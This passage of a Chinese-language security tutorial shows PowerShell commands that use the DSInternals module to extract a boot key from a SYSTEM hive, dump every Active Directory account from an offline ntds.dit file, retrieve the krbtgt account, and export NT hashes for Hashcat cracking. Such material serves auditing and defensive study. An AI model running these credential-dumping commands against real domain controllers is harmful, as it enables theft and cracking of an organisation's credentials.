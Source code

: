 导入DSInternals：

```
Import-Module DSInternals

```

2、获取所有账户信息
----------

```
$key = Get-BootKey -SystemHivePath 'C:\Users\a\Desktop\a\SYSTEM'

Get-ADDBAccount -All -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey $key 

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/a426718d11cdea15ddcd766348ece719dd272fa7.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/3ec58515542b375dae0c1684a38075b6004133a1.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/5d14ad2776e5c797625f6784e7f7f73e93ec3bb5.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/56f2dd63822c256363cab04c3d274b6976d5dc23.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/da3ddf81b2c18d76b3be719162c626479134171f.jpg)

3、获取指定账户信息
----------

```
$key = Get-BootKey -SystemHivePath 'C:\Users\a\Desktop\a\SYSTEM'

Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=test,DC=local'  -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey $key

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f24b8d3c7ff14bf806e5c8e0ccb2d1f143e50dd9.jpg)

4、导出支持Hashcat的NT hash
---------------------

```
Get-ADDBAccount -All -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey $key | Format-Custom -View HashcatNT | Out-File hashes.txt

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/87fab038e7b5c0744d9891724ec05a8c97620438.jpg)
